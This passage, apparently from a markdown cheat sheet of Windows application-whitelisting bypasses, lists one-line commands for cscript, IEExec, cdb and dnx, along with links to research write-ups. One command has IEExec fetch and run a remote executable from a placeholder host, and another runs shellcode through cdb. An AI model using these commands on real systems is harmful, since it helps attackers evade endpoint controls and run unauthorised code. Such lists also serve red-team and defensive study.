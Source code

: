## 12. Execute .VBS

cscript.exe //E:vbscript script.txt

Requires admin: No

Links:  
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_3
https://twitter.com/KyleHanslovan/status/905189665120149506


## 13. PresentationHost.exe

Missing Example

Requires admin: ?

Links:  
https://raw.githubusercontent.com/subTee/ShmooCon-2015/master/ShmooCon-2015-Simple-WLEvasion.pdf



## 14. dfsvc.exe

Missing Example

Requires admin: ?

Links:  
https://raw.githubusercontent.com/subTee/ShmooCon-2015/master/ShmooCon-2015-Simple-WLEvasion.pdf



## 15. IEExec.exe

ieexec.exe http://x.x.x.x:8080/bypass.exe

Requires admin: ?

Links:  
https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/



## 16. cdb.exe

cdb.exe -cf x64_calc.wds -o notepad.exe

Requires admin: ?

Links:  
http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html


## 17. dnx.exe

dnx.exe consoleapp
